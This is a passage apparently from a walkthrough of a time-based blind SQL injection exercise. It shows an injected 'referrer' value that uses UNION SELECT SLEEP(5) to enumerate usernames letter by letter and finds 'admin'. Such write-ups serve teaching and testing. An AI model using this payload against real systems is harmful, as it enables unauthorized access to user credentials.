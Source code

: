![](Screenshots/time_based_identifying_password_column.png)

Now I query the username column to locate a username.  Cycling through the letters with the following command reveals the username `admin`

`referrer=admin123' UNION SELECT SLEEP(5),2 FROM users where username like 'a%'`
